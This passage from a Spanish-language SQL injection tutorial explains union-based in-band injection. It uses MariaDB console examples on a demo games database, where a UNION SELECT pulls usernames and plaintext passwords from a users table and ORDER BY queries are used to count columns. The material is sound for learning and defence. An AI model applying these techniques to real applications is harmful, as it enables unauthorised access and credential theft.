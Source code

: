 ## In-Band
Este tipo de inyección es el más sencillo de entender, ya que, como mencioné anteriormente, la información se puede obtener directamente a través de la propia página web. Se divide en dos tipos principales: `UNION` y `ERROR`.

### Union-based

Las inyecciones SQL basadas en unión utilizan la condición `UNION` que es la que vamos a utilizar para este tipo de inyección, la cual combina los resultados de las consultas SELECT dentro de la tabla principal.

```sql
MariaDB [gamesdb]> select games,release_date from games union select username,password from users;
+------------------+--------------+
| games            | release_date |
+------------------+--------------+
| Warframe         | 2013-03-25   |
| Dead By Daylight | 2016-06-14   |
| Cult Of The Lamb | 2022-06-10   |
| The Forest       | 2014-05-03   |
| Aragami          | 2016-10-04   |
| V1c3nt_123       | password123! |
| 1s4-4c           | 1s4g11il@r!  |
| R_J04qu1n_R      | R0j0_123     |
| 4my-C4ts         | L0v3_C4t2    |
| K1ll_DBD         | M41n_N11r23  |
+------------------+--------------+
10 rows in set (0,000 sec)
```

Cabe destacar que, para realizar la unión, ambas tablas en la consulta deben tener el mismo número de columnas, por lo que es necesario conocer esta cantidad en la tabla principal.

Por lo que antes seguir con la instrucción `UNION` primero hay que conocer el numero de columnas que hay en una query, esto se puede conseguir utilizando la instrucción `ORDER BY`.


La instrucción `ORDER BY` nos sirve para realizar un ordenamiento de la columna que nosotros indiquemos.

```sql
MariaDB [gamesdb]> select games,release_date from games order by 1;
+------------------+--------------+
| games            | release_date |
+------------------+--------------+
| Aragami          | 2016-10-04   |
| Cult Of The Lamb | 2022-06-10   |
| Dead By Daylight | 2016-06-14   |
| The Forest       | 2014-05-03   |
| Warframe         | 2013-03-25   |
+------------------+--------------+
5 rows in set (0,001 sec)

MariaDB [gamesdb]> select games,release_date from games order by 2;
+------------------+--------------+
| games            | release_date |
+------------------+--------------+
| Warframe         | 2013-03-25   |
| The Forest       | 2014-05-03   |
| Dead By Daylight | 2016-06-14   |
| Aragami          | 2016-10-04   |
| Cult Of The Lamb | 2022-06-10   |
+------------------+--------------+
5 rows in set (0,000 sec)
```